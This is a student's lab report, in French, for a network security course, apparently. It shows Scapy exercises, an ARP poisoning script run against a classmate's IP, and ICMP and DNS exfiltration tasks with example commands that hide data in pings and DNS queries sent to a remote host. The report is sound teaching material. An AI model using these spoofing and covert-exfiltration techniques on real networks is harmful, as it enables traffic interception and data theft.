

# TP4 SECU : Exfiltration

# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

J'ai ping le pc d'Alan car on ne peut pas ping la passerelle d'Ynov :x

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=98:3b:8f:b4:db:38 src=84:14:4D:10:5E:AF type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.218 dst=10.33.77.246 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=84:14:4d:10:5e:af src=98:3b:8f:b4:db:38 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=32774 flags= frag=0 ttl=64 proto=icmp chksum=0x4bc9 src=10.33.77.246 dst=10.33.76.218 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |>>>)
```

🌞 **`tcp_cap.py`**

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 10.33.76.218
- Adresse IP dst : 162.159.133.234
- Port TCP src : 12283
- Port TCP dst : 443
```

🌞 **`dns_cap.py`**

```
fmaxance@ZeyKiiPC:~$ dig ynov.com

; <<>> DiG 9.18.19-1~deb12u1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47655
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;ynov.com.                      IN      A

;; ANSWER SECTION:
ynov.com.               300     IN      A       104.26.10.233
ynov.com.               300     IN      A       172.67.74.226
ynov.com.               300     IN      A       104.26.11.233

;; Query time: 23 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Tue Nov 28 09:31:12 CET 2023
;; MSG SIZE  rcvd: 85
```

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_cap.py
104.26.10.233
```

🌞 **`dns_lookup.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_lookup.py 
Ether / IP / UDP / DNS Ans "104.26.10.233"
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 arp_poisoning.py
Enter the victims ip: 10.33.74.177
.
Sent 1 packets.
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_send.py 10.1.1.1 j
.
Sent 1 packets.
Payload 'j' envoyé avec succès à 10.1.1.1.
```



🌞 **`icmp_exf_receive.py`**

Depuis le pc de doniban :

```
python3 icmp_exf_send.py 10.33.73.20 meow
```

Sur mon pc:

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_receive.py
Sniffing en cours...
Caractère caché: meow
```

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

